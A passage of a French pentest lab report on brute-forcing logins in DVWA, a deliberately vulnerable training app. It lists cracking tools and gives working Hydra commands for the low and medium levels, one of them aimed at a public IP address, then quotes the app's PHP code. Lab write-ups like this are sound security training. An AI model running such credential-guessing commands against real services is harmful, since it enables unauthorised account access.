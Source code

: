 # 1. Brute Force

Inutile d'expliquer le bruteforce, mais nous allons quand même le faire :).
Le bruteforce  est une méthode d'attaque utilisée pour deviner un mot de passe, une clé de chiffrement ou toute autre information sensible en essayant systématiquement toutes les combinaisons possibles jusqu'à trouver la bonne. C'est une méthode simple mais parfois efficace, surtout si les mots de passe ou clés sont faibles ou mal sécurisés.

Il y a plusieurs outils disponible pour bruteforce : 

| Outil           | Description                                                                  | Cible principale                          |
| --------------- | ---------------------------------------------------------------------------- | ----------------------------------------- |
| Hydra           | Outil rapide pour tester des mots de passe sur divers services réseau.       | SSH, FTP, HTTP, SMTP, etc.                |
| Medusa          | Outil de bruteforce modulaire et rapide pour les services réseau.            | SSH, FTP, Telnet, MySQL, etc              |
| John the Ripper | Craqueur de mots de passe hachés puissant et configurable.                   | Hachages de mots de passe                 |
| Hashcat         | Outil de déchiffrement avancé pour hachages, avec support GPU                | Hachages de mots de passe                 |
| Burp Suite      | Suite d'outils pour les tests de sécurité, incluant un module de bruteforce. | Formulaires web, sessions HTTP            |
| Wfuzz           | Outil flexible pour le bruteforce des paramètres web.                        | URL, cookies, paramètres web              |
| Patator         | Outil modulaire pour tester les mots de passe et autres services.            | SSH, HTTP, DNS, MySQL, etc.               |
| Ncrack          | Outil rapide pour tester la sécurité des authentifications réseau.           | SSH, RDP, FTP, Telnet, etc.               |
| Aircrack-ng     | Outil pour le craquage des clés de réseaux Wi-Fi.                            | Clés WEP/WPA sur Wi-Fi                    |
| CeWL            | Génère des listes de mots (wordlists) basées sur les contenus d'un site      | Création de dictionnaires personnalisés\| |

## 1.1 Premier niveau - low

On arrive sur une simple page de login
![images](C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\bruteforce\1.png)

On remarque en essayant des identifiants que ces derniers sont envoyés via la méthode `GET` car on a cette url.

```
http://dvwa.lan/DVWA/vulnerabilities/brute/?username=admin&password=admin&Login=Login#
```

On va utiliser `hydra` pour essayer de bruteforce.  
La commande n'etant pas très lisible en screenshot, la voici directement :

```
hydra -l admin -P /opt/wordlist/wordlists/wordlists/passwords/most_used_passwords.txt dvwa.lan http-get-form "/DVWA/
vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=bnk7pa0fohd54o1l6orc5624ko; security=low:F=Username and/or password incorrect."
```

![images](C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\bruteforce\2.png)
On trouve le login qui est `admin` et le password `password`.

## 1.2 Deuxieme niveau - medium

Cette fois ci, on utilise une wordlist aussi pour les identifiants 

```
hydra -L /opt/wordlists/wordlists/languages/english.txt -P /opt/wordlists/wordlists/passwords/password.txt 34.163.97.167 http-get-form "/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=dvkdo50vcgtak32lhhadgk8rvs; security=medium:F=Username and/or password incorrect."
```

Cependant, cela marche toujours puisque le code ne bloque pas les requêtes ou ne les filtre pas non plus il ajoute seulement un délai de 2 secondes entre chaque requêtes

```php
<?php
...
    }
    else {
        // Login failed
        sleep( 2 );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

On le voit dans le code source dans la balise `else`. Donc le programme prendra plus de temps mais ultimement ca ne change rien au bruteforce

# 1.3 Troisieme niveau - hard

Quand on regarde le code source du troisieme niveau on remarque une ligne de code différente

```php
if( isset( $_GET[ 'Login' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```
